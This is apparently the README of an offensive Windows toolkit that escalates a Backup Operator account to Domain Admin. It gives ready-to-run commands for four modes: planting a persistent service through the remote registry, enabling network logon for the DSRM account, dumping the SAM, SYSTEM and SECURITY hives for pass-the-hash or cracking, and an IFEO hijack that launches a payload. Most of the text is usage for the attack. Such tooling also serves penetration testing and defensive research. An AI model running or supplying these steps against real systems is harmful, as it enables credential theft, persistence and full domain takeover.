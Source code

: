 # BackupOperatorToolkit

## Usage  

The BackupOperatorToolkit (BOT) has 4 different mode that allows you to escalate from Backup Operator to Domain Admin.  
Use "runas.exe /netonly /user:domain.dk\backupoperator powershell.exe" before running the tool.  

### Service Mode  

The SERVICE mode creates a service on the remote host that will be executed when the host is rebooted.  
The service is created by modyfing the remote registry. This is possible by passing the "REG_OPTION_BACKUP_RESTORE" value to RegOpenKeyExA and RegSetValueExA.  
It is not possible to have the service executed immediately as the service control manager database "SERVICES_ACTIVE_DATABASE" is loaded into memory at boot and can only be modified with local administrator privileges, which the Backup Operator does not have.  

```powershell
.\BackupOperatorToolkit.exe SERVICE \\PATH\To\Service.exe \\TARGET.DOMAIN.DK SERVICENAME DISPLAYNAME DESCRIPTION
```  

![service](./service.png)  
  
### DSRM Mode  

The DSRM mode will set the DsrmAdminLogonBehavior registry key found in "HKLM\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" to either 0, 1, or 2.  
Setting the value to 0 will only allow the DSRM account to be used when in recovery mode.  
Setting the value to 1 will allow the DSRM account to be used when the Directory Services service is stopped and the NTDS is unlocked.  
Setting the value to 2 will allow the DSRM account to be used with network authentication such as WinRM.  
If the DUMP mode has been used and the DSRM account has been cracked offline, set the value to 2 and log into the Domain Controller with the DSRM account which will be local administrator.  

```powershell
.\BackupOperatorToolkit.exe DSRM \\TARGET.DOMAIN.DK 0||1||2
```  

![dsrm](./dsrm.png)  

### DUMP Mode  

The DUMP mode will dump the SAM, SYSTEM, and SECURITY hives to a local path on the remote host or upload the files to a network share.  
Once the hives have been dumped you could PtH with the Domain Controller hash, crack DSRM and enable network auth, or possibly authenticate with another account found in the dumps. Accounts from other forests may be stored in these files, I'm not sure why but this has been observed on engagements with management forests.
This mode is inspired by the [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) project.  

```powershell
.\BackupOperatorToolkit.exe DUMP \\PATH\To\Dump \\TARGET.DOMAIN.DK
```  

![dump](./dump.png)  
  
### IFEO Mode  

The IFEO (Image File Execution Options) will enable you to run an application when a specifc process is terminated.  
This could grant a shell before the SERVICE mode will in case the target host is heavily utilized and rarely rebooted.  
The executable will be running as a child to the WerFault.exe process.  

```powershell
.\BackupOperatorToolkit.exe IFEO notepad.exe \\Path\To\pwn.exe \\TARGET.DOMAIN.DK
```  

![ifeo](./ifeo.png)  
![ifeo-msf](./ifeo-msf.png)  
![ifeo-msf-s](./ifeo-msf-s.png)  
![ifeo-pwned](./ifeo-pwned.png)  
